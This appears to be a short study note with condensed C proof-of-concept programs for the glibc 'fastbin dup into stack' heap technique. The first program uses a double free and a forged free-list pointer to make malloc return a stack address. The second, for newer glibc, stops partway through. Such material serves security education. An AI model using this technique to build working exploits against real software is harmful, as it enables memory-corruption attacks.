 ### fastbin dup into stack

#### POC精简

##### glibc 2.23

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	free(a);
	free(b);
	free(a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	stack_var = 0x20;
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```



##### glibc 2.27 - glibc 2.39

```C
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	void *ptrs[7];
	for (int i=0; i<7; i++) {
		ptrs[i] = malloc(8);
	}
	for (int i=0; i<7; i++) {
		free(ptrs[i]);
	}
	unsigned long long stack_var;

	int *a = calloc(1,8);
	int *b = calloc(1,8);
	int *c = calloc(1,8);

	fprintf(stderr, "1st calloc(1,8): %p\n", a);
	fprintf(stderr, "2nd calloc(1,8): %p\n", b);
	fprintf(stderr, "3rd calloc(1,8): %p\n", c);
```